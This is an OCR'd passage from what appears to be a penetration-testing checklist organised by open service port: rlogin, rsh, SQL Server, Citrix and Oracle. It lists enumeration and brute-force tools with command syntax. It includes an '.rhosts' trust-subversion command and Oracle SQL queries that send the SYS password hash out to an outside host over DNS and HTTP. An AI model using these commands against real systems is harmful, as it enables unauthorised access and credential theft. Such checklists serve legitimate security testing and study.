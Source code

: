              ▪  rlogin hostname -l username
             ▪  rlogin <IP>
         ▪  Subvert the files
             ▪  echo ++ > .rhosts
     ◦  Rlogin Brute force
         ▪  Hydra
 •  rsh port 514 open
     ◦  Rsh Enumeration
         ▪  rsh host [-l username] [-n] [-d] [-k realm] [-f | -F] [-x] [-PN | -PO] command
     ◦  Rsh Brute Force
         ▪  rsh-grind
         ▪  Hydra
         ▪  medusa
 •  SQL Server Port 1433 1434 open
     ◦  SQL Enumeration
         ▪  piggy
         ▪  SQLPing
             ▪  sqlping ip_address/hostname
         ▪  SQLPing2
         ▪  SQLPing3
         ▪  SQLpoke
         ▪  SQL Recon
         ▪  SQLver
     ◦  SQL Brute Force
         ▪  SQLPAT
             ▪  sqlbf -u hashes.txt -d dictionary.dic -r out.rep - Dictionary Attack
             ▪  sqlbf -u hashes.txt -c default.cm -r out.rep - Brute-Force Attack
         ▪  SQL Dict
         ▪  SQLAT
         ▪  Hydra
         ▪  SQLlhf
         ▪  ForceSQL
 •  Citrix port 1494 open
     ◦  Citrix Enumeration
         ▪  Default Domain
         ▪  Published Applications
             ▪  ./citrix-pa-scan {IP_address/file | - | random} [timeout]
             ▪  citrix-pa-proxy.pl IP_to_proxy_to [Local_IP]
     ◦  Citrix Brute Force
         ▪  bforce.js
         ▪  connect.js
         ▪  Citrix Brute-forcer
         ▪  Reference Material
             ▪  Hacking Citrix - the legitimate backdoor
             ▪  Hacking Citrix - the forceful way
 •  Oracle Port 1521 Open
     ◦  Oracle Enumeration
         ▪  oracsec
         ▪  Repscan
         ▪  Sidguess
         ▪  Scuba
         ▪  DNS/HTTP Enumeration
             ▪  SQL> SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE US ERNAME='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL; SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT PASSWORD FROM DBA_USERS WHERE USERNAM E='SYS')||'.vulnerabilityassessment.co.uk') FROM DUAL
             ▪  SQL> select utl_http.request('http://gladius:5500/'||(SELECT PASSWORD FROM DBA_USERS WHERE USERNAME='SYS')) from dual;
         ▪  WinSID
         ▪  Oracle default password list
         ▪  TNSVer
             ▪  tnsver host [port]
         ▪  TCP Scan
         ▪  Oracle TNSLSNR